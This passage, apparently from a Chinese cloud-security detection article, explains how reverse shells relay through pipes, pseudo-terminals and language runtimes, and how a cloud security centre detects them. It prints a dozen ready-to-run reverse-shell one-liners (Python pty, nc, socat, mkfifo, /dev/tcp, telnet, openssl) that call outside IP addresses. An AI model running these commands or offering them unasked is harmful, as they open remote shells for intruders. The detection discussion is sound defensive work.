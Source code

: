 云安全中心告警

![](https://gitee.com/fuli009/images/raw/master/public/20230714175441.png)

这类反弹shell使用频率较高，其中利用伪终端中转的方式值得单独讨论，比如以下案例

    
    
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.155",10006));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'  
    

该模式与通过管道等中转原理一样，但通过伪终端中转的检测难度大大提升，单从shell的标准输入输出来看，和正常打开的终端没有什么区别，此外，一些场景如容器、agent等等也会有相似的日志表现，在平衡漏报与误报的难度上大大提升。因此我们在文件描述符检测方案的基础上，结合进程、网络等多种日志信息综合分析。

 **云安全中心告警**

![](https://gitee.com/fuli009/images/raw/master/public/20230714175442.png)

  

通过管道、伪终端等作为中转体，并与socket打通，重定向shell解释器的输入输出到中转体，比如以下案例

    
    
    nc 10.10.10.10 6060|/bin/sh|nc 10.10.10.10 5050 nc -e /bin/bash 10.10.10.10 6060 nc -c bash 10.10.10.10 6060 socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:6060  
    
    
    
    mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 6060>/tmp/f  
    
    
    
    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.10.10:6060 > /tmp/s; rm /tmp/s  
    
    
    
    mknod backpipe p; nc 10.10.10.10 6060 0<backpipe | /bin/bash 1>backpipe 2>backpipe  
    
    
    
    exec 5<>/dev/tcp/10.10.10.10/6060;cat <&5|while read line;do $line >&5 2>&1;done  
    
    
    
    telnet 10.10.10.10 6060 | /bin/bash | telnet 10.10.10.10 5050  
    

### 第三类反弹shell：编程语言实现标准输入中转，重定向命令执行的输入到中转  

第三种类型通过编程语言实现标准输入的中转，然后重定向命令执行的输入到中转，标准输出和标准错误中转形式不限制。

    
    
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('0.0.0.0',666))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), stdout=subprocess.PIPE, stderr=subprocess.PIPE,shell=True);s.send(proc.stdout.read()+proc.stderr.read())\")"  
    

在这种场景下，反弹shell的命令执行和正常业务行为变得更加难以区分，对抗程度上升，除了从进程命令行尽可能的覆盖这类反弹shell的特征以外，云安全中心通过异常命令行为序列、异常shell启动模型对该类风险进行兜底。异常命令行为序列模型依托于于阿里云大数据实时计算平台，通过分析命令序列与攻击者获取shell后行为相似度来判定是否为反弹shell。而异常shell启动模型结合多维度特征以及机器历史行为综合判定产出告警。如下图告警案例

![](https://gitee.com/fuli009/images/raw/master/public/20230714175443.png)
